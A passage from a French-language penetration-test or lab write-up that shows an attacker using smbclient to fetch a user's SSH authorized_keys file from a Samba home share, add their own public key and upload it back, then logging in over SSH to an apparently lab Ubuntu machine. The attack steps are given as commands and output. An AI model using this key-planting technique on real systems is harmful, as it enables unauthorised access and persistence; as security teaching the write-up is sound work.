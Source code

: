 Accio shell !
-------------

Dans tous les cas on arrive sur l'opération suivante qui consiste à récupérer le fichier *authorized\_keys* de l'utilisateur *vmware*, y ajouter notre clé publique et le renvoyer dans *.ssh* :  

```plain
$ smbclient -I 192.168.1.27 -U vmware //UBUNTUVM/home
Enter vmware's password: 
Domain=[MSHOME] OS=[Unix] Server=[Samba 3.0.26a]
smb: \> dir
  .                                   D        0  Thu Jun 19 17:11:26 2008
  ..                                  D        0  Wed Jun 11 16:26:30 2008
  .bashrc                             H     2298  Tue Jun 10 14:10:59 2008
  .bash_logout                        H      220  Tue Jun 10 14:10:59 2008
  .profile                            H      566  Tue Jun 10 14:10:59 2008
  .bash_history                       H       65  Fri Jun 20 21:39:34 2008
  .sudo_as_admin_successful           H        0  Tue Jun 10 19:43:15 2008
  .ssh                               DH        0  Thu Jun 12 18:19:40 2008

                38110 blocks of size 131072. 28930 blocks available
smb: \> cd .ssh
smb: \.ssh\> dir
  .                                   D        0  Thu Jun 12 18:19:40 2008
  ..                                  D        0  Thu Jun 19 17:11:26 2008
  known_hosts                         N      884  Wed Jun 11 17:44:36 2008
  authorized_keys                     N      397  Wed Jun 11 16:59:01 2008

                38110 blocks of size 131072. 28930 blocks available
smb: \.ssh\> get authorized_keys
getting file \.ssh\authorized_keys of size 397 as authorized_keys (43,1 KiloBytes/sec) (average 43,1 KiloBytes/sec)
smb: \.ssh\> put authorized_keys
putting file authorized_keys as \.ssh\authorized_keys (779,2 kb/s) (average 779,3 kb/s)
```

On obtient alors notre shell tant attendu :  

```plain
ssh vmware@192.168.1.27
Enter passphrase for key 'id_rsa': 
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

Last login: Fri Jun 20 14:35:37 2008
vmware@ubuntuvm:~$ id
uid=1000(vmware) gid=1000(vmware) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),104(scanner),111(lpadmin),112(admin),1000(vmware)
vmware@ubuntuvm:~$ uname -a
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
```

sudo accio shell !
------------------
